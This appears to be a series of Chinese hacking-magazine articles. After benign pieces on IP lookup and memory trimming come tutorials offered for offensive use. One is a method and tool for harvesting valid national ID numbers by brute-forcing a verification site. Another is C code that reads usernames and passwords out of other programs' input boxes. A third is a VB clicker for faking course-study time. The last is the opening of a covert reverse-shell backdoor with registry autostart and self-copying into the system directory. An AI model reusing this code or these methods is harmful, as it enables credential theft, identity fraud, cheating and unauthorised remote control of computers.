m_returnstr.Delete(0,m_returnstr.Find("来自")+6);
str=m_returnstr.Left(m_returnstr.Find("&nbsp"));
MessageBox(str,"Good");
iphttpfile->Close;
ipsession.Close;
```

至此整个程序就完了，里面涉及的两个类，如果不明白的可以查 msdn。呵呵，下面就让我们来测试下软件，ok，no problem（如图6）。


图6

（本文所涉及的软件 ip 查询工具光盘已收录）

## 从内存释放软件的原理到底观内存

乱 雪

某日，群里某人提问如何实现内存释放功能，便引起了我的兴趣。从网上下载了一款内存释放软件进行逆向分析。由于逆向细节不符合本文主题，所以省略之。

逆向后发现，该程序核心部分——即内存释放功能，是调用了 `SetProcessWorkingSetSize()` 函数。此函数在 MSDN 描述如下：

“Sets the minimum and maximum working set sizes for the specified process”，中文意思是：设置进程的最大最小工作空间。此话什么意思？这里涉及到虚拟内存的概念，只要掌握到这个概念后，就能明白这句话的意思了。

虚拟内存，是现代操作系统中一个比较重要的概念。现在的物理内存大小（即内存条本身容量）已经不能满足应用软件的需求了。为了解决物理内存空间紧张的问题，便引入了虚拟内存的概念，将外部存储设备用来当作内存的一部分，通常用的是硬盘。

一个程序运行时，其实并不是所有代码都在内存中，有一部分暂时不执行的代码将会存入硬盘中，并以“页”为单位存储，留下载要部分在内存中执行。操作系统已经将内存分割成一块一块的装入或者换出内存了，这个叫“分页”，换出和装入是以“页”为单位进行的。可以这样理解“页”，一个练习小子……


图1


图2

……在 Windows 系统中，每页大小默认为 4KB。页面的装入和换出是 CPU 与硬盘之间的操作，直接读取硬盘较慢，因此系统需要复杂调度算法以减少频繁换页……

……当游戏从全屏缩小后再恢复全屏，常会出现短暂卡顿；有些游戏缩小后背景音乐消失。这与代码页被换出到硬盘、恢复时再换入内存有关……

……可以得出结论：减少程序内存占用，可将非关键代码换到硬盘，仅保留关键代码在内存。`SetProcessWorkingSetSize()` 正是用于设置进程工作集大小的函数……

```
BOOL SetProcessWorkingSetSize(
    HANDLE hProcess,
    SIZE_T dwMinimumWorkingSetSize,
    SIZE_T dwMaximumWorkingSetSize
);
```

> "If both dwMinimumWorkingSetSize and dwMaximumWorkingSetSize have the value (SIZE_T)-1, the function removes as many pages as possible from the working set of the specified process."

该函数有三个参数：`hProcess`（进程句柄）、`dwMinimumWorkingSetSize` 和 `dwMaximumWorkingSetSize`（最小/最大工作集空间）。将后两者设为 `-1` 可尽可能移除工作集页面，仅保留必要部分。

了解该函数后，可编写程序将指定进程的部分内存释放出去。代码如下：

```
#include <stdio.h>
#include <windows.h>
#include <tlhelp32.h>

//// by：乱雪
//// email：lx#shellcodes.org
//// 功能：SetProcessWorkingSetSize 函数演示

int main()
{
    PROCESSENTRY32 pentry = {sizeof(pentry)};
    HANDLE hPSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    BOOL bMore = Process32First(hPSnap, &pentry);

    while (bMore)
    {
        if (strcmp("WINWORD.EXE", pentry.szExeFile) == 0)
        {
            // 找到进程后，OpenProcess 获取句柄
            // 需要 PROCESS_SET_QUOTA 权限
        }
    }
}
```

```
cpp
HANDLE hProcess = OpenProcess(PROCESS_SET_QUOTA, FALSE, pentry.th32ProcessID);
// hProcess不为空就表明获得了句柄值
if(hProcess != NULL)
{
    // 调用SetProcessWorkingSetSize函数
    SetProcessWorkingSetSize(hProcess, -1, -1);
    CloseHandle(hProcess);
}
else
    break;

bMore = Process32Next(hPSnap, &pentry); // 获得下一个进程
...
CloseHandle(hPSnap); // 关闭句柄
return 0;
```

搜索的那个，如果是，就调用SetProcessWorkingSetSize函数；否则就继续循环到下一个进程。

在这里大概讲一下虚拟内存的概念，相信大家应该对内存释放软件有了一个大概的了解了，将部分不常要的页面换出去是可以腾出一些内存空间给其他新进程使用，但频繁交换页面，会影响系统速度，因为前面说了，CPU和硬盘之间交互操作是很慢的。并且Windows本身就有了这个功能，当你将应用程序缩小时，已经把部分不重要的代码交换出去了，留下关键代码在内存中执行。


以上代码在VC6.0编译通过。还是以写本稿的WORD进程WINWORD.EXE为例子，编译程序后，我们先看该进程在任务管理器中所显示的内存占用大小（如图3），然后运行刚才编译好的程序，内存占用大小瞬间减下去了（如图4）。

这个程序的思路是，首先使用CreateToolhelp32Snapshot函数建立一个进程快照，然后Process32First函数获得第一个进程，接着再用一个循环进行搜索，只要还有进程存在，就一直搜索直到最后一个，每循环一次，就判断当前进程是不是我们需要搜索的那个，如果是，就调用SetProcessWorkingSetSize函数；否则就继续循环到下一个进程。

其实内存管理、进程这些的内容远远不止本文所述，涉及到操作系统原理，较为复杂，本文只是给了一个合理的描述，起到一个引导性的作用。倘若有读者对操作系统原理感兴趣的，在此推荐一些书：《深入理解计算机系统》、《操作系统精髓与设计原理》、《深入解析Windows操作系统》、《Windows内核原与实现》。至于Linux内核方面的，个人觉得大部分都还不错，大家可以适当阅读。当然看这些书除了需要金钱上的代价，还需要基本功的。

# 个人隐私的危机
## ——身份证安全分析与批量猜解

紫玉幽谷

现在很多游戏注册帐号的时候，其要求必须输入身份证号，而且带有身份证验证机制，并且一个身份证只能注册一个帐号。对于大多数玩家来说，仅仅注册一个号是远远不够的。这让我想到要猜解身份证号，比如要个1988年8月8日的身份证号，就好了。下面来具体介绍一下过程。

## 一、身份证号组成

要想猜解身份证号，就必须先了解身份证号的组成，如果你已经了解的可以跳过。如果你并不是很清楚，我建议你还是看一下，它是后面猜解的基本原则。

这是一张的样证图片其号码为：110102197810272321（如图1）。

## 身份证号的组成（如图2）

+ 关于图中需要注意的部分：

1. 在图2中，将出生日期的年份与月日是分开，是为了猜解方便。
2. 在图2中，“编号”部分的最后一位，其单数为男性，偶数为女性。


3. 在图2中，“验证码”部分，由于网络上有人提出一种算法可以将其直接算出，但本文将不采用此种方法。因为当你需要的时候，未必手头就有这个程序，倒不如通过手动猜解的方式来实现。


## 二、手动网络猜解

现在，我们要用手动猜解一个身份证号，其号码为18位。位数很多，而我们手动重复的次数有限，所以必须用最少的次数猜出一个正确的号码来。那么哪一部分可能的重复次数最少呢？我想大家首先想到的部分是我在图2中表明部分，即110102197810**2321中的星号部分（以百度的样证的号码为例），这部分只需要少于31次就有机会猜出一个号码来。

我们现在来实验一下，看看是否能得到一个真实的身份证号码，先搜索一个验证身份证的网站（如图3）。


本人使用的是IP探索者 http://ipseeker.cn/id_card.php。

现在，将号码110102197810**2321中的星号部分填入数字01，也就是从10月1日开始猜解；其号码为110102197810012321，结果（如图4）。

在尝试到10月4日时可以得出正确的结果（如图5）。


好的，应当说很幸运的，这么快就得到了一个！但也产生了一个问题，我们刚才猜解一个身份证号时，需要一个18位身份证号中的16位（例如110102197810**2321）。那有什么办法能像刚才那样，能给出我们一些接近16位的身份证号呢？当然是搜索引擎了。用百度搜一下，经过我的尝试，用11010219来搜索比较快一些，也就是用“所在地区的6位号码+19”来进行搜索（如图6）。


虽然只给出了18位身份证中的12位，这还是给猜解以很大的帮助，但因为缺少位数很高使猜解变得重复操作次数很高。而现在大多数的身份证号查询网站并没有对查询次数进行限制，甚至辅助验证码都没有，这使程序化操作可行而且容易。

先不急着说程序化的方法，而是做另外的一种尝试，来看看是否有方法来提高一下手动猜解的速度呢？

我们再以“样证110102197810272321”的这个号码为例，来做后两位的猜解。首先，用尝试猜解11010219781027232*中的最后一位，看看是否能够得到一正确的号码，即从0到9进行10次。大家可以自己尝试一下，其结果是10次均为失败。那难道后4位的猜解，真的是成功率很低吗？

于是我对倒数第二位（1101021978102723*1）减1之后（11010219781027231*）再进行猜解，如图7得到了正确的结果。


然后又猜解了11010219781027233*、11010219781027234*都能得到正确的结果。看来这样猜解的成功率也是很高，而且大家会发现要这样猜下去，我们会得到很多很多的正确的身份证号。

那可不可以自己按照自己的需求定制一个号码呢？比如北京市西城区（1101021978）1978年1月1日出生的一名男性的号码，以0010开始，倒数第二位增2，进行猜解，其结果如图8。


好的，那得到一名女性的北京市西城区（1101021978）1978年1月1日出生的号码，可以以0000开始，倒数第二位增2，进行猜解，其结果如图9。


太好了，可以说只要按照身份证号码规则随意写个号码，在几十次以内几乎均可得到一个真实的身份证号。于是，我做了多次测试，大概身份证后面4位在1000到5000之间的其成功率可能会高一些。

还有一个问题，如何得到区县的号码（身份证号的前六位）呢？很多的身份证号查询网站中都附带了这个功能。除此之外，本人还将其整理了下来，你可以在源代码中找到这个程序（是JS语言写的，我嵌入到HTML里了）。

那好，我们加快一下获取速度，来了解一下编程的方法吧！

## 三、自制软件使用

在了解编程具体过程之前，先了解一下软件的使用方法。由于其猜解部分的不同而分为两种：

### 1. 猜解日期

这里需要说明的是：“验证字符串”是当所猜解的身份证号为真时，网站上该页给出的提示信息，如果用过代理程序的话，可以很容易理解（如图10）。


### 2. 猜解最后两位

如果你要猜解其它部位，可以根据上述方法两种方法组合使用，但中间的那个框必须为4位，这是编程时的设定（如图11）。

## 四、程序的编程源码

本人的编程环境是在Windows 7、Delphi for Microsoft Win32（Borland Developer Studio 2007）、ADSL 2Mb下进行编程测试通过的。


图11

### 1. 样式视图（如图12）


图12

### 2. 控件说明

| 控件类型 | 控件名称 | 用途 |
|---|---|---|
| TLabel | Label1 | 本次尝试的身份证号码 |
| TLabel | Label2 | 本次尝试的结果 |
| TEdit | EditString | 网络验证的关键字 |
| TEdit | EditID | 身份证号的前10位以上 |
| TEdit | EditStart | 身份证号的累加部分 |
| TEdit | EditEnd | 身份证号的尾部剩余号码，与 EditID 之和必须是14位 |
| TEdit | EditTime | 网络访问的间隔时间 |
| TButton | Button2 | 操作按钮 |
| TMemo | Memo1 | 显示网页的源代码 |
| TListBox | ListBox1 | 显示猜解正确的身份证号 |
| TTimer | Timer1 | 线程操作 |
| TIdHTTP | IdHTTP1 | 获取网页代码控件 |

### 3. 网页对接解析

手动操作时，是在网页中提交号码来进行验证。程序化的原理是一样的，所以需要先分析一下网页代码。我就以 IP 探索者 http://ipseeker.cn/id_card.php 的网页为例：

【IP探索者】是用 PHP 语言编写的动态网页代码（如图13），我们得不到其源码，但这对于本次编程操作没有任何干扰。无论是哪种语言编写的，只需要将身份证号提交给该网页，然后让它得出结果是真是假就可以了。好了，思路已确定。


图13

先来看一下该页中的表单部分代码：

```html
<form action="id_card.php" method="post" target="_parent">
<p>
<center>
<table style="BORDER-COLLAPSE: collapse" bordercolor="#3366cc" cellpadding="4" width="590" border="1">
<tr>
<td class="tdc" style="FONT-SIZE: 12px; LINE-HEIGHT: 15px; FONT-FAMILY: Tahoma,Verdana,宋体" align="center" bgcolor="#6699cc" colspan="2" height="24">
<a href="http://ipseeker.cn">IP探索者</a>身份证号码查询分析工具
</td>
</tr>
<tr class="tdc" bgcolor="#eff1f3">
<td style="FONT-SIZE:12px;LINE-HEIGHT:15px;FONT-FAMILY:Tahoma,Verdana;" width="600">
身份证号
```

```html
<input style="FONT-SIZE: 12px; FONT-FAMILY: 宋体" size="18" name="id_card">&nbsp;
<input style="FONT-SIZE: 9pt; FONT-FAMILY: 宋体" type="submit" value="查询" name="B1">&nbsp;
<input style="FONT-SIZE: 9pt; FONT-FAMILY: 宋体" type="reset" value="重写" name="B2">
</form>
```

在“form”中告诉我们，其身份证号的运算页为 action="id_card.php"，数据提交形式为 method="post"。在“input”中告诉我们，身份证号的输入框的名字是 name="id_card"。

### 4. 主要代码分析

由于要多次访问同一个网站，而且第一次操作从提交数据到返回结果需要一些时间，用简单的循环会造成程序的长时间锁死。所以，我采用了 TTimer 控件来代替多线程，以减少代码的复杂程度，而且还能产生一个访问的时间间隔，以减少出错几率。

其代码例程很简单，在 Delphi2007 中只需要仅仅百行的代码就解决了全部的问题，这里就不写出来了，需要的同学可以去光盘里看下。


## 五、猜解的意义

无论是手动猜解还是程序猜解，甚至是自己的随机手写，都可以使我们得到一些真实可用的身份证号码，那么它最多可以达到一个什么样的程度呢？比如，我们真的可以完整的猜解到一个人的身份证的全部信息吗？

在本文的第二节手动猜解部分，对身份证的后4位进行了尝试，可以得出这样的结果：从倒数第二位到倒数第四位，绝大多数的数字组合都能找到正确的结果，也就是说我们无法准确的知道谁是谁。

网上大多数是以 1101021978****2321 和 11010219****272321 的形式给出的，这种形式可以得到准确的结果吗？于是，我做了对 110102197810**2321 这个号码进行了测试（如图14），找到了3个号码。也就是说以 1101021978****2321 的形式给出的号码其结果应不少于36个。虽然这个范围很小，但我们仍然不能得到一个确定的结果。

## 六、猜解的防御

当你看到，能如此容易的得到一个真实可用的身份证号码时，你就一定会想到，我如何来辨别其身份证的真伪呢？首先，我们先分析一下，我们能从身份证号中所获得的信息（以样证为例）：

| 字段 | 可知性 | 示例 |
|---|---|---|
| 姓名 | 未知 |  |
| 性别 | 已知 | 女 |
| 民族 | 未知 |  |
| 出生 | 已知 | 1978年10月27日 |
| 住址 | 只知道区县（110102） | 北京市西城区 |
| 居民身份证号码 | 已知 | 110102197810272321 |
| 照片 | 未知 |  |

那我们要防范假身份证，就要知道那些无法猜解的部分，有没有呢？有，是姓名和相片部分。在身份证网站或发短信，都可以验证姓名与身份证号是否匹配，同时还能得到一张此人的照片。在这些网站上，我们可以验证身份证的真伪。因为猜解得到的号码，无法知道其身份证所对应的姓名，给猜解带来困难，而且每次5元的手续费，永远的把你的想法拒之门外。

## 七、总结

“身份证号”无论是真的还是假的，对于我们大多数人来说，根本没有什么意思。但能辨认的“身份证”的真假，这对于我们外出做事、防范受骗等有一定的好处。另一面，我个人认为现在用身份证号来区分其上网年龄的做法，看起来没有多大用处。就算没有身份证号的猜解的方法，你可以去看看百度的贴吧，那里竟然有将身份证号与姓名同时公开的地方。唉……恐怖呀！

算法，而不能作为身份证号码的破解方法。最后，我强调一下，身份证号安全的隐藏方式。安全系数是1101021978****2321略小于11010219****272321，以110102197810****21形式的安全性要比前两者都好，最安全的是11010219781027****的形式（无论是哪种形式，其隐藏位数都应不低于4位）。其次，一定要注意把姓名与身份证号分开。还有，希望能做身份证号查询的网站，能对同一IP地址的访问查询加以限制。

（文章中所涉及到的软件和代码已收录在光盘中）

# 黑客编程之密码读取技术

hacker120

说来惭愧，看了黑客X档案那么久还没有投过一篇稿（广大叉子们请别向我吐口水吖！）这几天都在学习黑客编程，就把我学到的跟大家交流交流。相信对于所有小菜们来说，最感兴趣的莫过于怎样去控制别人的电脑和盗别人的账号密码了，俺也一样。所以，没错！我今天要教大家的，就是关于账号密码截取的技术，虽然很基础，不过不要笑，说不定爱Q大盗的作者也是从这里开始的呢！嘿嘿……

鉴于键盘钩子已相当经典了（教材都有介绍），这里我们就用到另外一种非钩子的技术。首先，先介绍一下我们今天的主角SendMessage()在MSDN中它的原型是：

```c
LRESULT SendMessage(
    HWND hWnd,      // handle to destination window
    UINT Msg,       // message
    WPARAM wParam,  // first message parameter
    LPARAM lParam   // second message parameter
);
```

这个API有什么作用呢？顾名思义，他是用来发送消息的，这里我们只要用SendMessage()向窗口发送一个WM_GETTEXT，那么就会在他的第四个参数返回窗口的文本内容。说到这里，小菜们应该懂了我们今天的任务了吧？没错我们就是要想办法向账号密码框发送这个消息，从而获取到账号跟密码。

这个API的第一个参数是窗口句柄，也就是我们今天要攻克的第一个问题，怎样获取账号跟密码的窗口句柄呢？这里又为大家介绍几个API，首先是FindWindow()，这个API有什么用呢？他是用来获取父窗口句柄的。只有两个参数，第一个我们直接设NULL就行了，第二个是窗口标题，如果是123我们就写123，如果是hacker120我们就写hacker120函数调用成功返回窗口句柄。可能又有小菜要问了，我们要拿父句柄来干嘛吖？举个例子吧，邮递员找地方的时候也要一层一层的找吖，首先是北京，再找海淀区，然后是那条街几号再找到黑客X档案，所以我们这里也是这样。接着是FindWindowEx()，这个API也是用来获取窗口句柄的，这里是重点吖，请注意听。先看看这个API的原型：

```c
HWND FindWindowEx(
    HWND hwndParent,   // handle to parent window
    HWND hwndChildAfter, // handle to child window
    LPCTSTR lpszClass, // class name
    LPCTSTR lpszWindow // window name
);
```

第一个参数是父窗口句柄，我们已经有了，第二个参数是要我们从哪里开始查找起，这里我们必须要一层一层的来（如图1），如果我们找第五个窗口句柄，首先必须要先获取窗口三的句柄，然后FindWindowEx第一个参数填窗口三句柄、类名填窗口五的，这样才能获取到窗口五的句柄。找到了窗口五，我们直接来个SendMessage(hwndA,WM_GETTEXT,20,(LPARAM)UserName)就行了。


图1

至于类名我们直接用VC6里面自带的spy++查看，下面直接给出代码做参考。

```c
BOOL GetPwd()
{
    char ClassName[64]={0};
    char UserName[20]={0};
    ...
```

# 黑客编程

```c
char PassWord[20]={0};
HWND hwnd=FindWindow(NULL,"Text");
if(hwnd==NULL)
{
    MessageBox(NULL,"FindWindow ERROR!","warning",0);
    return 0;
}

HWND hwndA=FindWindowEx(hwnd,NULL,"Edit",NULL);
if(hwndA==NULL)
{
    MessageBox(NULL,"获取句柄A失败!!","warning",MB_OK|MB_ICONWARNING);
    return 0;
}

SendMessage(hwndA,WM_GETTEXT,20,(LPARAM)UserName);
HWND hwndB=FindWindowEx(hwnd,hwndA,"Edit",NULL);
if(hwndB==NULL)
{
    MessageBox(NULL,"获取句柄B失败!!","warning",MB_OK|MB_ICONWARNING);
    return 0;
}

SendMessage(hwndB,WM_GETTEXT,20,(LPARAM)PassWord);
char result[40];
strcpy(result,UserName);
strcat(result,"\r\n");
strcat(result,PassWord);
MessageBox(NULL,result,"result",0);
return 0;
```

程序运行（如图2）


图2

当然，这样的代码只能对付一般的程序，假如程序自身屏蔽了外部提交来的消息，那么这样的代码就没戏了。这时候我们可以用远程注入的技术来对抗，但是如果程序完全屏蔽了WM_GETTEXT消息呢？呵呵，其实还有对抗的方法的……继续关注黑客X档案吧，我会为大家解难的，或者直接到X论坛编程模块跟我交流吧！我的ID：hacker120

（文章中所涉及到的代码已收录在光盘中）

# 从教育网站作弊实例谈脚本编程

记得去年在《黑客X档案》发表过一篇关于全国继续教育作弊的文章，当时用的按键精灵模拟点击+加速器加速的方法，效果不错。近日突然想再看看时隔一年现在的继续教育网站有何变化。打开首页，果然变化不小，界面清爽、分类明确，比起一年前算是翻天覆地。国家效率不错，呵呵。界面是改了，防作弊又如何呢？好奇心驱使下，我向别人要了个ID登上去，并打开了学习界面。（网址：www.teacher.com.cn）

这里有必要再进行下简单说明。打开学习课程界面后，顶部是控制栏，我们要开刀的地方（如图1），下面大半部分是学习课程的地方，这里不予以理睬。控制栏中，中间有一计时器累计时间。计时器从0开始到20分钟不再累计。右前有一按钮“更新学习时间”，按钮在计时器时间小于10分钟为灰色不可点击状态。计时器大于10分钟时，点击按钮向服务器累加计时器中的时间，也就告诉服务器你已经学习了这么久，同时计时器清零。

由于计时器在20分钟后不再增加，所以单纯的挂机是不行了。


单尝试老方法，按键精灵加变速器，模拟点击后网页报错。后改单使用按键精灵和单使用加速器均不行。初步分析后推测，服务器应该会在收到更新时间后，将收到的时间和服务器标准时间比对，假若服务器时间过了1分钟，而用户在1分钟内就提交了几次更新时间，显然不合常理，会被认为作弊，除非黑掉服务器，但是这路绕的太远了。

后尝试了一些简单方法，多开网页、灰色按钮突破等，也不行。抓包分析，得到的都是加密后的乱码。看来想要累计学习时间，只有另辟它径了。


VB。（WebBrowser控件在VB界面默认不显示，非精简版VB6.0在顶栏“工程-部件-控件”里面找到“Microsoft Internet Control”，打勾保存，控件栏最后一个地球型图标就是了。图2、图3、图4）

我先用百度做实验，查看源码得“百度一下”按钮相关代码为：`<input type="submit" value="百度一下" id="su">`，id值为su，打开VB画好界面（如图5）。


## 一、脚本

首先庆祝一下，盼望已久的《黑客X档案》论坛终于重生……我们知道，网页内容的一些元素，如超链接、按钮、文本框等，在正常情况下会响应用户Tab按键，且有响应顺序，有规律可循。按下按钮后焦点会置置，正好可行。我的想法是，事先数好“更新学习时间”按钮响应所经过的Tab次数，后用脚本模拟之，当焦点移到按钮上时，模拟回车点击。设好延时时间，如15分钟，循环运行脚本。

```
Set a=WScript.CreateObject("WScript.shell")
WScript.Sleep xxx    // xxx为延时时间（毫秒）
a.SendKeys "{TAB}"   // 发送Tab键（重复若干次）
a.SendKeys "{ENTER}" // 发送Enter
```

代码很简单，最后再调节自身即可。不过想法虽好，但效果很不理想：一是会受干扰，其他程序弹窗会打乱顺序；二是必须保持浏览器为最前，想边挂机边玩游戏几乎不可能，脚本完败。

## 二、网页元素

一筹莫展之时，突然想到WebBrowser。图个方便，我用……

```
WebBrowser1.Navigate "baidu.com"   // 跳转到百度首页
WebBrowser1.Document.GetElementById("su").Click  // 找到id为su的对象并点击
```

写好代码，将其运行。在WebBrowser中填好搜索框内容后，点击“模拟点击”，成功地模拟了点击。

原本以为就成功了，结果不料，依样的套到继续教育网站上却出了错，无论如何都取不到“更新学习时间”按钮。换用GetElementByTagName、GetElementByName均不行。这着实让我郁闷了好一阵，直到现在也不知其故。有兴趣的朋友可以尝试研究一下。

## 三、PostMessage投递鼠标消息

一个星期后，终于找到另外的方法，依然用VB的WebBrowser，但模拟方法改用PostMessage直接发送鼠标单击消息，尝试后，效果不错，界面（如图6）。

设计模式下的WebBrowser居然显示“无法显示该页”，窗口Form1样式BorderStyle设为0-None，也就是无边框，Left和Top设为0，WebBrowser的Left和Top也设为0，…

# 黑客编程

应用的坐标和日常用的数学坐标略有不同，电脑上是以左上角为坐标原点，向右X增加，向下Y增加。下文要使用到的GetCursorPos取鼠标位置，得到的是屏幕上的绝对位置，而模拟点击需用到的坐标位置是相对于WebBrowser控件的相对位置（即以WebBrowser的左上角为原点）。置WebBrowser于左上角是为了让其相对位置和屏幕绝对位置重合，从而免去繁琐的坐标转换。

```
Command2.Caption = "坐标记录中"
Timer2.Interval = 5000
Timer1.Interval = 20
...
Private Sub Timer2_Timer()
    Command2.Caption = "点我5秒后记录坐标"
    Timer1.Interval = 0
    Timer2.Interval = 0
End Sub
```


图6

简述一下代码，两个Text实时显示鼠标位置。点击command2后第5秒，两个Text将定位。也就是，用户按下command2后将鼠标放在“更新学习时间”上，5秒后将记录鼠标位置，也就记录了按钮位置。（其实我原先的想法是用户鼠标停在按钮上，然后通过按快捷键来记录。但是VB里面的热键注册简直变态，不仅代码长，而且还容易死。其间VB就死了一次，害我重写了一遍程序。）

### 1. 申明部分

代码较长，文章里就不详写了。所需要申明的API函数有：GetCursorPos（取鼠标位置）、PostMessage（模拟点击用到）、FindWindow、FindWindowA（这两个都是取WebBrowser句柄用到）。

还需申明一个POINTAPI用于保存鼠标位置。

```
Private Type POINTAPI
    x As Long
    y As Long
End Type
```

### 3. 取得WebBrowser句柄

取WebBrowser句柄这个看似简单的部分。之前我用WebBrowser1.hwnd，结果总是报错（如图7）。后来百度一下才知道，WebBrowser不能用这个方法取句柄。时间仓促，具体原因没详看，我也没弄懂，总之我剽窃了一段取句柄的代码，未出差错，这里就不详说了。


图7

### 2. 取“更新学习时间”按钮坐标

```
Private Sub Timer1_Timer()   'Timer1，interval为20，用于实时更新鼠标坐标至两个Text
    Dim xy As POINTAPI
    GetCursorPos 匹配
    Call GetCursorPos(xy)
    Text1.Text = xy.x
    Text2.Text = xy.y
End Sub

Private Sub Command2_Click()  '取坐标的按钮command2
```

### 4. 投递鼠标消息

要用到PostMessage，函数原型是：BOOL PostMessage(HWND hWnd, UINT Msg, WPARAM wParam, LPARAM lParam)。HWND是句柄，Msg是被寄送的消息，wParam和lParam是附加消息。执行后返回一个Bool值，成功True，失败False。

具体到模拟鼠标中来，Msg填&H201是按下鼠标左键，填&H202是放开鼠标左键。lParam应该填鼠标要点击的坐标，注意这里不能直接填坐标，应该事先进行高低位转换。

```
Private Sub Timer3_Timer()
    Dim hwnd As Long
    ...
```

```
vb
hwnd = GetBrowserWindow(Form1.hwnd)  '这个就是刚刚的取句柄函数，返回值即是句柄
lParam = Text1.Text + (Text2.Text * &H10000) '转换坐标
PostMessage hwnd, WM_LBUTTONDOWN, MK_LBUTTON, ByVal (lParam) '按下左键
PostMessage hwnd, WM_LBUTTONUP, 0, ByVal (lParam)          '放开左键
End Sub

Private Sub Command1_Click()   '“开始挂机”按钮
Timer3.Interval = 60000   '这里设置为一分钟
End Sub

```


图8

### 5. 程序收尾

剩下的都比较简单，叙述一下，代码不贴了。停止键将 Timer3 设为 0。退出键代码为 End。跳转那里是 WebBrowser1.Navigate(text3.text)，Text3 是输入网址的地方。

到这里，这个程序就基本完工了，运行情况（如图8），每分钟自动点击“更新学习时间”按钮。笔者亲测了将近一个小时，未出现任何问题。

## 四、小结

时间仓促，程序并未达到最佳效果，还有许多待改进的地方。由于设置了 Form 的 Style 为 0 - None，造成程序无法最小化，可以用置于系统托盘的方法解决。热键的方法也浅尝辄止，有兴趣的朋友可以尝试一下。

当然，以上方法完全不止可用于继续教育作弊，稍加改动就可以做出其他程序来。比如，可以用来做自动填表单、网页游戏挂机、论坛自动发帖等。发挥的余地还有很多，希望大家在编程的路上多研究多探索。

（文章总所涉及到的代码和程序已收录在光盘中）

# 隐蔽后门制作

沧海浮萍

无论是我们通过入侵网站提权还是通过漏洞利用获得计算机的控制权之后，都要对该计算机植入后门，以便于我们以后的再次访问。按照类型的不同，这些后门主要分为两大类：主动连接式后门，被动连接式后门（反弹式连接）。按照功能的不同，主要分为远控木马类和远程 shell 类。远控木马相信大家一定很熟悉了，这里就不再去赘述，本文主要讲解一下远程反弹式 shell 后门的编程制作。要想深入地了解本文的内容要求大家有一定的 windows API 编程功底。

## 一、软件功能分析

任何一个软件在开始开发之前都要对软件的功能进行分析，这里我们也来分析一下我们要制作的软件。首先，作为一个后门，要有自启动的功能，我们就采用注册表自启动；同时，为了安全起见，我们需要给我们的后门进行备份；由于是个 shell，我们需要绑定 cmd 并进行网络通信；采用反弹式连接，我们的后门就需要每隔一定的时间的主动连接主控端。

### 二、主要的API介绍

在正文开始之前，为了照顾大多数没有基础的朋友，我们先来了解一下本文中用到的主要 API。

- 1. 原型 `LPTSTR lstrcat(LPTSTR lpString1, LPCTSTR lpString2)`

**函数功能：** 该函数将一个字符串附加在另一个字符串后面。

**参数说明：**

- **lpString1**：一个以 NULL 为终止符字符串指针。这个缓冲区必须足够大能包含两个字符串。
- **lpString2**：一个以 NULL 为终止符字符串指针，它将追加在由 lpString1 中指定。这个缓冲区必须足够大能包含两个字符串。

**返回值：** 若函数运行成功，返回值指向缓冲区；若失败，则返回值为NULL。

- 2. 原型BOOL CopyFile(LPCTSTR lpExistingFileName, LPCTSTR lpNewFileName, BOOL bFailIfExists)

**函数功能：** 复制文件。

**参数说明：**

lpExistingFileName String，源文件名

lpNewFileName String，目标文件名

bFailIfExists Long，如果设为TRUE（非零），那么一旦目标文件已经存在，则函数调用会失败。否则目标文件被改写

**返回值：** 非零表示成功，零表示失败。

- 3. 原型LONG RegOpenKeyEx

**函数功能：** 打开一个制定的注册表键

**参数说明：**

HKEY hKey，// 需要打开的主键的名称

LPCTSTR lpSubKcy，// 需要打开的子键的名称

DWORD ulOptions，// 保留，设为0

REGSAM samDesired，// 安全访问标记，也就是权限

PHKEY phkResult // 得到的将要打开键的句柄

- 4. 原型DWORD GetModuleFileName(HMODULE hModule, LPTSTR lpFilename, DWORD nSize)

**参数说明：**

hModule HMODULE 装载一个程序实例的句柄。如果该参数为NULL，该函数返回该当前应用程序全路径。

lpFileName LPTSTR 是你存放返回的名字的内存块的指针，是一个输出参数

nSize DWORD，装载到缓冲区lpFileName的最大值

**返回值：** 如果返回为成功，将在lpFileName的缓冲区当中返回相应模块的路径；如果所为的nSize过小，那么返回仅按所设置缓冲区大小返回相应字符串内容。如果函数失败，返回值将为0。

- 5. 原型RegSetValueEx(hKey Long, lpValueName String, Reserved Long, dwType Long, lpData Any, cbData Long)

**函数功能：** 设置注册表键值

**参数说明：**

hKey Long，一个已打开项的句柄，或指定一个标准项名

lpValueName String，要设置值的名字

Reserved Long，未用，设为零

dwType Long，要设置的数值类型

lpData Any，包含数据的缓冲区中的第一个字节

cbData Long，lpData缓冲区的长度*/

- 6. 原型SOCKET WSAAPI WSASocket(int af, int type, int protocol, LPPROTOCOL_INFO lpProtocolInfo, Group g, int iFlags)

**函数功能：** 创建一个与指定传送服务提供者捆绑的套接口

**参数说明：**

af：地址族描述。目前仅支持AF_INET格式，亦即ARPA Internet地址格式。

type：新套接口的类型描述。

protocol：套接口使用的特定协议，如果调用者不愿指定协议则定为0。

lpProtocolInfo：一个指向PROTOCOL_INFO结构的指针，该结构定义所创建套接口的特性。如果本参数非零，则前三个参数（af, type, protocol）被忽略。

g：套接口组的描述字。

iFlags：套接口属性描述。

## 三、开始编程

本文中用到的主要API就是这些了，编程平台为VC6.0，创建工程的细节就不介绍了，直接开始编码写代码。

第一步：包含头文件，本节代码中包含一下头文件以及库即可。

```
#include <winsock2.h>
#include <stdio.h>
#pragma comment(lib, "ws2_32.lib")
#pragma comment(lib, "advapi32.lib")
#pragma comment(lib, "user32.lib")
```

第二步：全局数据结构。

```
WSADATA wd; // 存储被WSAStartup函数调用后返回的Windows Sockets数据
```

```
c
HKEY MyKey; // 注册表项
SOCKET sock;
STARTUPINFO si; // 该结构用于指定新进程的主窗口特性
PROCESS_INFORMATION pi; // 该结构返回有关新进程及其主线程的信息
struct sockaddr_in sin; // 此数据结构用做 connect 函数的参数
struct hostent *hptr; // 该结构记录主机信息
char buffer[MAX_PATH], cmd[MAX_PATH], *p, IP[50] = "127.0.0.1\x00";
unsigned short port = 3364; // 默认端口
struct in_addr addr; // in_addr 用来表示一个32位的 IPv4 地址

```

第三步：主函数编写，这也是最主要的部分。这里 Win32 程序的入口点为

```
c
int WINAPI WinMain(
    HINSTANCE hInstance,
    HINSTANCE hPrevInstance,
    LPSTR lpszCmdLine,
    int nCmdShow
)

```

我们直接抄之即可。

下面开始正式的主题代码编写，我们希望在程序开始运行的时候就创建程序的副本，并将副本放到系统目录中。这就要求我们首先获取当前的系统路径，用到的函数是：

```
c
GetSystemWindowsDirectoryA();
GetSystemWindowsDirectoryA(buffer, MAX_PATH);

```

